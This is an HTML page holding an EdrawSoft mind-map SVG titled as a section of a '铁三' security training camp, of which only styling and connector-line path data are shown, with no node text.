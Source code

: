 <script src="map.js"></script>
<div id="main-area">
      <div id="content-info">
        <div id="content-info">
          <div id="title">铁三训练营部分</div>
        </div>
      </div>
      <div id="main-content">
        <div id="svg-container"><svg xmlns:xlink="http://www.w3.org/1999/xlink" width="1467" ed:name="Page-1" id="page1" viewBox="0 0 1467 3341" xmlns="http://www.w3.org/2000/svg" ed:hSpacing="30" xmlns:ev="http://www.w3.org/2001/xml-events" height="3341" preserveAspectRadio="xMinYMin meet" xmlns:ed="http://www.edrawsoft.cn/xml/2017/SVGExtensions/" ed:vSpacing="30">
    <style type="text/css"><![CDATA[
g[ed\:togtopicid],g[ed\:hyperlink],g[ed\:comment],g[ed\:note] {cursor:pointer;}
svg text::selection,svg tspan::selection{background-color: #4285f4;color: #ffffff;fill: #ffffff;}
.st6 {fill:#000000;font-family:Microsoft YaHei;font-size:10pt}
.st5 {fill:#17375e;font-family:Microsoft YaHei;font-size:13pt}
.st4 {fill:#376092;font-family:Microsoft YaHei;font-size:18pt;font-weight:bold}
]]></style>
    <defs>
        <linearGradient y2="100%" id="lg2" x2="0%" x1="0%" y1="0%">
            <stop stop-color="#ffffff" offset="0"/>
            <stop stop-color="#f0f5f0" offset="0.25"/>
            <stop stop-color="#e1ebe1" offset="0.75"/>
            <stop stop-color="#c8d7c8" offset="1"/>
        </linearGradient>
    </defs>
    <rect y="0" fill="#ffffff" width="1467" height="3341" x="0"/>
    <path ed:tosuperid="102" stroke-linecap="round" fill="none" id="103" stroke-linejoin="round" d="M22.3,0C39.5,0,60.9,0,85.3,0" ed:parentid="101" stroke="#558ed5" transform="matrix(1,0,0,1,218,1671)"/>
    <path ed:tosuperid="104" stroke-linecap="round" fill="none" id="105" stroke-linejoin="round" d="M-13.5,693.1L-0.5,693.1C-0.5,-138.6,5.1,-693.1,13.5,-693.1" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,977)"/>
    <path ed:tosuperid="106" stroke-linecap="round" fill="none" id="107" stroke-linejoin="round" d="M-13.5,47.3L-0.5,47.3C-0.5,-9.5,5.1,-47.3,13.5,-47.3" ed:parentid="104" stroke="#558ed5" transform="matrix(1,0,0,1,532,237)"/>
    <path ed:tosuperid="108" stroke-linecap="round" fill="none" id="109" stroke-linejoin="round" d="M-13.5,63L-0.5,63C-0.5,-12.6,5.1,-63,13.5,-63" ed:parentid="106" stroke="#558ed5" transform="matrix(1,0,0,1,928,127)"/>
    <path ed:tosuperid="110" stroke-linecap="round" fill="none" id="111" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="108" stroke="#558ed5" transform="matrix(1,0,0,1,999,56)"/>
    <path ed:tosuperid="112" stroke-linecap="round" fill="none" id="113" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="108" stroke="#558ed5" transform="matrix(1,0,0,1,999,72)"/>
    <path ed:tosuperid="114" stroke-linecap="round" fill="none" id="115" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.1,5.1,15.8,13.5,15.8" ed:parentid="106" stroke="#558ed5" transform="matrix(1,0,0,1,928,206)"/>
    <path ed:tosuperid="116" stroke-linecap="round" fill="none" id="117" stroke-linejoin="round" d="M-13.5,55.1L-0.5,55.1C-0.5,-11,5.1,-55.1,13.5,-55.1" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,166)"/>
    <path ed:tosuperid="118" stroke-linecap="round" fill="none" id="119" stroke-linejoin="round" d="M-0.5,39.4C-0.5,-7.9,5.1,-39.4,13.5,-39.4" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,182)"/>
    <path ed:tosuperid="120" stroke-linecap="round" fill="none" id="121" stroke-linejoin="round" d="M-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,198)"/>
    <path ed:tosuperid="122" stroke-linecap="round" fill="none" id="123" stroke-linejoin="round" d="M-13.5,0L-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="120" stroke="#558ed5" transform="matrix(1,0,0,1,1154,174)"/>
    <path ed:tosuperid="124" stroke-linecap="round" fill="none" id="125" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,213)"/>
    <path ed:tosuperid="126" stroke-linecap="round" fill="none" id="127" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,229)"/>
    <path ed:tosuperid="128" stroke-linecap="round" fill="none" id="129" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,245)"/>
    <path ed:tosuperid="130" stroke-linecap="round" fill="none" id="131" stroke-linejoin="round" d="M-0.5,-39.4C-0.5,7.9,5.1,39.4,13.5,39.4" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,261)"/>
    <path ed:tosuperid="132" stroke-linecap="round" fill="none" id="133" stroke-linejoin="round" d="M-0.5,-55.1C-0.5,11,5.1,55.1,13.5,55.1" ed:parentid="114" stroke="#558ed5" transform="matrix(1,0,0,1,999,276)"/>
    <path ed:tosuperid="134" stroke-linecap="round" fill="none" id="135" stroke-linejoin="round" d="M-0.5,-78.8C-0.5,15.8,5.1,78.8,13.5,78.8" ed:parentid="104" stroke="#558ed5" transform="matrix(1,0,0,1,532,363)"/>
    <path ed:tosuperid="136" stroke-linecap="round" fill="none" id="137" stroke-linejoin="round" d="M-13.5,31.5L-0.5,31.5C-0.5,-6.3,5.1,-31.5,13.5,-31.5" ed:parentid="134" stroke="#558ed5" transform="matrix(1,0,0,1,866,410)"/>
    <path ed:tosuperid="138" stroke-linecap="round" fill="none" id="139" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="136" stroke="#558ed5" transform="matrix(1,0,0,1,937,371)"/>
    <path ed:tosuperid="140" stroke-linecap="round" fill="none" id="141" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="136" stroke="#558ed5" transform="matrix(1,0,0,1,937,387)"/>
    <path ed:tosuperid="142" stroke-linecap="round" fill="none" id="143" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.1,5.1,15.8,13.5,15.8" ed:parentid="134" stroke="#558ed5" transform="matrix(1,0,0,1,866,458)"/>
    <path ed:tosuperid="144" stroke-linecap="round" fill="none" id="145" stroke-linejoin="round" d="M-13.5,23.6L-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="142" stroke="#558ed5" transform="matrix(1,0,0,1,937,450)"/>
    <path ed:tosuperid="146" stroke-linecap="round" fill="none" id="147" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="142" stroke="#558ed5" transform="matrix(1,0,0,1,937,465)"/>
    <path ed:tosuperid="148" stroke-linecap="round" fill="none" id="149" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="142" stroke="#558ed5" transform="matrix(1,0,0,1,937,481)"/>
    <path ed:tosuperid="150" stroke-linecap="round" fill="none" id="151" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="142" stroke="#558ed5" transform="matrix(1,0,0,1,937,497)"/>
    <path ed:tosuperid="152" stroke-linecap="round" fill="none" id="153" stroke-linejoin="round" d="M-0.5,559.3C-0.5,-111.9,5.1,-559.3,13.5,-559.3" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1111)"/>
    <path ed:tosuperid="154" stroke-linecap="round" fill="none" id="155" stroke-linejoin="round" d="M-13.5,0L-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="152" stroke="#558ed5" transform="matrix(1,0,0,1,532,552)"/>
    <path ed:tosuperid="156" stroke-linecap="round" fill="none" id="157" stroke-linejoin="round" d="M-0.5,488.4C-0.5,-97.7,5.1,-488.4,13.5,-488.4" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1182)"/>
    <path ed:tosuperid="158" stroke-linecap="round" fill="none" id="159" stroke-linejoin="round" d="M-13.5,31.5L-0.5,31.5C-0.5,-6.3,5.1,-31.5,13.5,-31.5" ed:parentid="156" stroke="#558ed5" transform="matrix(1,0,0,1,776,662)"/>
    <path ed:tosuperid="160" stroke-linecap="round" fill="none" id="161" stroke-linejoin="round" d="M-13.5,23.6L-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="158" stroke="#558ed5" transform="matrix(1,0,0,1,847,607)"/>
    <path ed:tosuperid="162" stroke-linecap="round" fill="none" id="163" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="158" stroke="#558ed5" transform="matrix(1,0,0,1,847,623)"/>
    <path ed:tosuperid="164" stroke-linecap="round" fill="none" id="165" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="158" stroke="#558ed5" transform="matrix(1,0,0,1,847,639)"/>
    <path ed:tosuperid="166" stroke-linecap="round" fill="none" id="167" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="158" stroke="#558ed5" transform="matrix(1,0,0,1,847,654)"/>
    <path ed:tosuperid="168" stroke-linecap="round" fill="none" id="169" stroke-linejoin="round" d="M-0.5,-31.5C-0.5,6.3,5.1,31.5,13.5,31.5" ed:parentid="156" stroke="#558ed5" transform="matrix(1,0,0,1,776,725)"/>
    <path ed:tosuperid="170" stroke-linecap="round" fill="none" id="171" stroke-linejoin="round" d="M-13.5,23.6L-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="168" stroke="#558ed5" transform="matrix(1,0,0,1,847,733)"/>
    <path ed:tosuperid="172" stroke-linecap="round" fill="none" id="173" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="168" stroke="#558ed5" transform="matrix(1,0,0,1,847,749)"/>
    <path ed:tosuperid="174" stroke-linecap="round" fill="none" id="175" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="168" stroke="#558ed5" transform="matrix(1,0,0,1,847,765)"/>
    <path ed:tosuperid="176" stroke-linecap="round" fill="none" id="177" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="168" stroke="#558ed5" transform="matrix(1,0,0,1,847,780)"/>
    <path ed:tosuperid="178" stroke-linecap="round" fill="none" id="179" stroke-linejoin="round" d="M-0.5,378.1C-0.5,-75.6,5.1,-378.1,13.5,-378.1" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1292)"/>
    <path ed:tosuperid="180" stroke-linecap="round" fill="none" id="181" stroke-linejoin="round" d="M-13.5,23.6L-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="178" stroke="#558ed5" transform="matrix(1,0,0,1,747,891)"/>
    <path ed:tosuperid="182" stroke-linecap="round" fill="none" id="183" stroke-linejoin="round" d="M-13.5,15.8L-0.5,15.8C-0.5,-3.2,5.1,-15.8,13.5,-15.8" ed:parentid="180" stroke="#558ed5" transform="matrix(1,0,0,1,818,851)"/>
    <path ed:tosuperid="184" stroke-linecap="round" fill="none" id="185" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="180" stroke="#558ed5" transform="matrix(1,0,0,1,818,867)"/>
    <path ed:tosuperid="186" stroke-linecap="round" fill="none" id="187" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.2,5.1,15.8,13.5,15.8" ed:parentid="180" stroke="#558ed5" transform="matrix(1,0,0,1,818,883)"/>
    <path ed:tosuperid="188" stroke-linecap="round" fill="none" id="189" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="178" stroke="#558ed5" transform="matrix(1,0,0,1,747,938)"/>
    <path ed:tosuperid="190" stroke-linecap="round" fill="none" id="191" stroke-linejoin="round" d="M-13.5,15.8L-0.5,15.8C-0.5,-3.2,5.1,-15.8,13.5,-15.8" ed:parentid="188" stroke="#558ed5" transform="matrix(1,0,0,1,818,946)"/>
    <path ed:tosuperid="192" stroke-linecap="round" fill="none" id="193" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="188" stroke="#558ed5" transform="matrix(1,0,0,1,818,962)"/>
    <path ed:tosuperid="194" stroke-linecap="round" fill="none" id="195" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.2,5.1,15.8,13.5,15.8" ed:parentid="188" stroke="#558ed5" transform="matrix(1,0,0,1,818,977)"/>
    <path ed:tosuperid="196" stroke-linecap="round" fill="none" id="197" stroke-linejoin="round" d="M-0.5,267.9C-0.5,-53.6,5.1,-267.9,13.5,-267.9" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1403)"/>
    <path ed:tosuperid="198" stroke-linecap="round" fill="none" id="199" stroke-linejoin="round" d="M-13.5,47.3L-0.5,47.3C-0.5,-9.4,5.1,-47.3,13.5,-47.3" ed:parentid="196" stroke="#558ed5" transform="matrix(1,0,0,1,795,1088)"/>
    <path ed:tosuperid="200" stroke-linecap="round" fill="none" id="201" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="198" stroke="#558ed5" transform="matrix(1,0,0,1,866,1032)"/>
    <path ed:tosuperid="202" stroke-linecap="round" fill="none" id="203" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="198" stroke="#558ed5" transform="matrix(1,0,0,1,866,1048)"/>
    <path ed:tosuperid="204" stroke-linecap="round" fill="none" id="205" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.1,5.1,15.8,13.5,15.8" ed:parentid="196" stroke="#558ed5" transform="matrix(1,0,0,1,795,1151)"/>
    <path ed:tosuperid="206" stroke-linecap="round" fill="none" id="207" stroke-linejoin="round" d="M-13.5,39.4L-0.5,39.4C-0.5,-7.9,5.1,-39.4,13.5,-39.4" ed:parentid="204" stroke="#558ed5" transform="matrix(1,0,0,1,866,1127)"/>
    <path ed:tosuperid="208" stroke-linecap="round" fill="none" id="209" stroke-linejoin="round" d="M-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="204" stroke="#558ed5" transform="matrix(1,0,0,1,866,1143)"/>
    <path ed:tosuperid="210" stroke-linecap="round" fill="none" id="211" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="204" stroke="#558ed5" transform="matrix(1,0,0,1,866,1158)"/>
    <path ed:tosuperid="212" stroke-linecap="round" fill="none" id="213" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="204" stroke="#558ed5" transform="matrix(1,0,0,1,866,1174)"/>
    <path ed:tosuperid="214" stroke-linecap="round" fill="none" id="215" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="204" stroke="#558ed5" transform="matrix(1,0,0,1,866,1190)"/>
    <path ed:tosuperid="216" stroke-linecap="round" fill="none" id="217" stroke-linejoin="round" d="M-0.5,-39.4C-0.5,7.9,5.1,39.4,13.5,39.4" ed:parentid="204" stroke="#558ed5" transform="matrix(1,0,0,1,866,1206)"/>
    <path ed:tosuperid="218" stroke-linecap="round" fill="none" id="219" stroke-linejoin="round" d="M-0.5,157.6C-0.5,-31.5,5.1,-157.6,13.5,-157.6" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1513)"/>
    <path ed:tosuperid="220" stroke-linecap="round" fill="none" id="221" stroke-linejoin="round" d="M-13.5,39.4L-0.5,39.4C-0.5,-7.9,5.1,-39.4,13.5,-39.4" ed:parentid="218" stroke="#558ed5" transform="matrix(1,0,0,1,527,1316)"/>
    <path ed:tosuperid="222" stroke-linecap="round" fill="none" id="223" stroke-linejoin="round" d="M-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="218" stroke="#558ed5" transform="matrix(1,0,0,1,527,1332)"/>
    <path ed:tosuperid="224" stroke-linecap="round" fill="none" id="225" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="218" stroke="#558ed5" transform="matrix(1,0,0,1,527,1347)"/>
    <path ed:tosuperid="226" stroke-linecap="round" fill="none" id="227" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="218" stroke="#558ed5" transform="matrix(1,0,0,1,527,1363)"/>
    <path ed:tosuperid="228" stroke-linecap="round" fill="none" id="229" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="218" stroke="#558ed5" transform="matrix(1,0,0,1,527,1379)"/>
    <path ed:tosuperid="230" stroke-linecap="round" fill="none" id="231" stroke-linejoin="round" d="M-0.5,-39.4C-0.5,7.9,5.1,39.4,13.5,39.4" ed:parentid="218" stroke="#558ed5" transform="matrix(1,0,0,1,527,1395)"/>
    <path ed:tosuperid="232" stroke-linecap="round" fill="none" id="233" stroke-linejoin="round" d="M-0.5,63.1C-0.5,-12.6,5.1,-63.1,13.5,-63.1" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1607)"/>
    <path ed:tosuperid="234" stroke-linecap="round" fill="none" id="235" stroke-linejoin="round" d="M-13.5,39.4L-0.5,39.4C-0.5,-7.9,5.1,-39.4,13.5,-39.4" ed:parentid="232" stroke="#558ed5" transform="matrix(1,0,0,1,512,1505)"/>
    <path ed:tosuperid="236" stroke-linecap="round" fill="none" id="237" stroke-linejoin="round" d="M-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="232" stroke="#558ed5" transform="matrix(1,0,0,1,512,1521)"/>
    <path ed:tosuperid="238" stroke-linecap="round" fill="none" id="239" stroke-linejoin="round" d="M-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="232" stroke="#558ed5" transform="matrix(1,0,0,1,512,1536)"/>
    <path ed:tosuperid="240" stroke-linecap="round" fill="none" id="241" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="232" stroke="#558ed5" transform="matrix(1,0,0,1,512,1552)"/>
    <path ed:tosuperid="242" stroke-linecap="round" fill="none" id="243" stroke-linejoin="round" d="M-0.5,-23.6C-0.5,4.7,5.1,23.6,13.5,23.6" ed:parentid="232" stroke="#558ed5" transform="matrix(1,0,0,1,512,1568)"/>
    <path ed:tosuperid="244" stroke-linecap="round" fill="none" id="245" stroke-linejoin="round" d="M-0.5,-39.4C-0.5,7.9,5.1,39.4,13.5,39.4" ed:parentid="232" stroke="#558ed5" transform="matrix(1,0,0,1,512,1584)"/>
    <path ed:tosuperid="246" stroke-linecap="round" fill="none" id="247" stroke-linejoin="round" d="M-0.5,0.1C-0.5,-0,5.1,-0.1,13.5,-0.1" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1670)"/>
    <path ed:tosuperid="248" stroke-linecap="round" fill="none" id="249" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="246" stroke="#558ed5" transform="matrix(1,0,0,1,518,1662)"/>
    <path ed:tosuperid="250" stroke-linecap="round" fill="none" id="251" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="246" stroke="#558ed5" transform="matrix(1,0,0,1,518,1678)"/>
    <path ed:tosuperid="252" stroke-linecap="round" fill="none" id="253" stroke-linejoin="round" d="M-0.5,-31.4C-0.5,6.3,5.1,31.4,13.5,31.4" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1702)"/>
    <path ed:tosuperid="254" stroke-linecap="round" fill="none" id="255" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="252" stroke="#558ed5" transform="matrix(1,0,0,1,537,1725)"/>
    <path ed:tosuperid="256" stroke-linecap="round" fill="none" id="257" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="252" stroke="#558ed5" transform="matrix(1,0,0,1,537,1741)"/>
    <path ed:tosuperid="258" stroke-linecap="round" fill="none" id="259" stroke-linejoin="round" d="M-0.5,-86.5C-0.5,17.3,5.1,86.5,13.5,86.5" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1757)"/>
    <path ed:tosuperid="260" stroke-linecap="round" fill="none" id="261" stroke-linejoin="round" d="M-13.5,31.5L-0.5,31.5C-0.5,-6.3,5.1,-31.5,13.5,-31.5" ed:parentid="258" stroke="#558ed5" transform="matrix(1,0,0,1,510,1812)"/>
    <path ed:tosuperid="262" stroke-linecap="round" fill="none" id="263" stroke-linejoin="round" d="M-0.5,15.8C-0.5,-3.1,5.1,-15.8,13.5,-15.8" ed:parentid="258" stroke="#558ed5" transform="matrix(1,0,0,1,510,1828)"/>
    <path ed:tosuperid="264" stroke-linecap="round" fill="none" id="265" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="258" stroke="#558ed5" transform="matrix(1,0,0,1,510,1844)"/>
    <path ed:tosuperid="266" stroke-linecap="round" fill="none" id="267" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.1,5.1,15.8,13.5,15.8" ed:parentid="258" stroke="#558ed5" transform="matrix(1,0,0,1,510,1859)"/>
    <path ed:tosuperid="268" stroke-linecap="round" fill="none" id="269" stroke-linejoin="round" d="M-0.5,-31.5C-0.5,6.3,5.1,31.5,13.5,31.5" ed:parentid="258" stroke="#558ed5" transform="matrix(1,0,0,1,510,1875)"/>
    <path ed:tosuperid="270" stroke-linecap="round" fill="none" id="271" stroke-linejoin="round" d="M-0.5,-165.3C-0.5,33,5.1,165.3,13.5,165.3" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1836)"/>
    <path ed:tosuperid="272" stroke-linecap="round" fill="none" id="273" stroke-linejoin="round" d="M-13.5,31.5L-0.5,31.5C-0.5,-6.3,5.1,-31.5,13.5,-31.5" ed:parentid="270" stroke="#558ed5" transform="matrix(1,0,0,1,521,1970)"/>
    <path ed:tosuperid="274" stroke-linecap="round" fill="none" id="275" stroke-linejoin="round" d="M-0.5,15.8C-0.5,-3.1,5.1,-15.8,13.5,-15.8" ed:parentid="270" stroke="#558ed5" transform="matrix(1,0,0,1,521,1985)"/>
    <path ed:tosuperid="276" stroke-linecap="round" fill="none" id="277" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="270" stroke="#558ed5" transform="matrix(1,0,0,1,521,2001)"/>
    <path ed:tosuperid="278" stroke-linecap="round" fill="none" id="279" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.1,5.1,15.8,13.5,15.8" ed:parentid="270" stroke="#558ed5" transform="matrix(1,0,0,1,521,2017)"/>
    <path ed:tosuperid="280" stroke-linecap="round" fill="none" id="281" stroke-linejoin="round" d="M-0.5,-31.5C-0.5,6.3,5.1,31.5,13.5,31.5" ed:parentid="270" stroke="#558ed5" transform="matrix(1,0,0,1,521,2033)"/>
    <path ed:tosuperid="282" stroke-linecap="round" fill="none" id="283" stroke-linejoin="round" d="M-0.5,-212.5C-0.5,42.5,5.1,212.5,13.5,212.5" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1883)"/>
    <path ed:tosuperid="284" stroke-linecap="round" fill="none" id="285" stroke-linejoin="round" d="M-0.5,-236.1C-0.5,47.2,5.1,236.1,13.5,236.1" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1907)"/>
    <path ed:tosuperid="286" stroke-linecap="round" fill="none" id="287" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="284" stroke="#558ed5" transform="matrix(1,0,0,1,557,2135)"/>
    <path ed:tosuperid="288" stroke-linecap="round" fill="none" id="289" stroke-linejoin="round" d="M-0.5,-7.9C-0.5,1.6,5.1,7.9,13.5,7.9" ed:parentid="284" stroke="#558ed5" transform="matrix(1,0,0,1,557,2151)"/>
    <path ed:tosuperid="290" stroke-linecap="round" fill="none" id="291" stroke-linejoin="round" d="M-0.5,-296C-0.5,59.2,5.1,296,13.5,296" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,1967)"/>
    <path ed:tosuperid="292" stroke-linecap="round" fill="none" id="293" stroke-linejoin="round" d="M-13.5,23.6L-0.5,23.6C-0.5,-4.7,5.1,-23.6,13.5,-23.6" ed:parentid="290" stroke="#558ed5" transform="matrix(1,0,0,1,615,2239)"/>
    <path ed:tosuperid="294" stroke-linecap="round" fill="none" id="295" stroke-linejoin="round" d="M-13.5,7.9L-0.5,7.9C-0.5,-1.6,5.1,-7.9,13.5,-7.9" ed:parentid="292" stroke="#558ed5" transform="matrix(1,0,0,1,686,2207)"/>
    <path ed:tosuperid="296" stroke-linecap="round" fill="none" id="297" stroke-linejoin="round" d="M-13.5,-4.8L-0.5,-4.8C-0.5,1,5.1,4.8,13.5,4.8" ed:parentid="294" stroke="#558ed5" transform="matrix(1,0,0,1,783,2204)"/>
    <path ed:tosuperid="298" stroke-linecap="round" fill="none" id="299" stroke-linejoin="round" d="M-0.5,-12.6C-0.5,2.5,5.1,12.6,13.5,12.6" ed:parentid="292" stroke="#558ed5" transform="matrix(1,0,0,1,686,2228)"/>
    <path ed:tosuperid="300" stroke-linecap="round" fill="none" id="301" stroke-linejoin="round" d="M-0.5,-20.5C-0.5,4.1,5.1,20.5,13.5,20.5" ed:parentid="290" stroke="#558ed5" transform="matrix(1,0,0,1,615,2283)"/>
    <path ed:tosuperid="302" stroke-linecap="round" fill="none" id="303" stroke-linejoin="round" d="M-13.5,15.8L-0.5,15.8C-0.5,-3.2,5.1,-15.8,13.5,-15.8" ed:parentid="300" stroke="#558ed5" transform="matrix(1,0,0,1,686,2288)"/>
    <path ed:tosuperid="304" stroke-linecap="round" fill="none" id="305" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="300" stroke="#558ed5" transform="matrix(1,0,0,1,686,2304)"/>
    <path ed:tosuperid="306" stroke-linecap="round" fill="none" id="307" stroke-linejoin="round" d="M-0.5,-15.8C-0.5,3.2,5.1,15.8,13.5,15.8" ed:parentid="300" stroke="#558ed5" transform="matrix(1,0,0,1,686,2319)"/>
    <path ed:tosuperid="308" stroke-linecap="round" fill="none" id="309" stroke-linejoin="round" d="M-0.5,-420.5C-0.5,84.1,5.1,420.5,13.5,420.5" ed:parentid="102" stroke="#558ed5" transform="matrix(1,0,0,1,421,2091)"/>
    <path ed:tosuperid="310" stroke-linecap="round" fill="none" id="311" stroke-linejoin="round" d="M-13.5,47.3L-0.5,47.3C-0.5,-9.5,5.1,-47.3,13.5,-47.3" ed:parentid="308" stroke="#558ed5" transform="matrix(1,0,0,1,749,2464)"/>
    <path ed:tosuperid="312" stroke-linecap="round" fill="none" id="313" stroke-linejoin="round" d="M-13.5,25.3L-0.5,25.3C-0.5,-5,5.1,-25.3,13.5,-25.3" ed:parentid="310" stroke="#558ed5" transform="matrix(1,0,0,1,820,2392)"/>
    <path ed:tosuperid="314" stroke-linecap="round" fill="none" id="315" stroke-linejoin="round" d="M-0.5,0C-0.5,0,5.1,0,13.5,0" ed:parentid="310" stroke="#558ed5" transform="matrix(1,0,0,1,820,2417)"/>
    <path ed:tosuperid="316" stroke-linecap="round" fill="none" id="317" stroke-linejoin="round" d="M-13.5,-9.5L-0.5,-9.5C-0.5,1.9,5.1,9.5,13.5,9.5" ed:parentid="314" stroke="#558ed5" transform="matrix(1,0,0,1,917,2427)"/>
    <path ed:tosuperid="318" stroke-linecap="round" fill="none" id="319" stroke-linejoin="round" d="M-0.5,-25.3C-0.5,5,5.1,25.3,13.5,25.3" ed:parentid="310" stroke="#558ed5" transform="matrix(1,0,0,1,820,2442)"/>
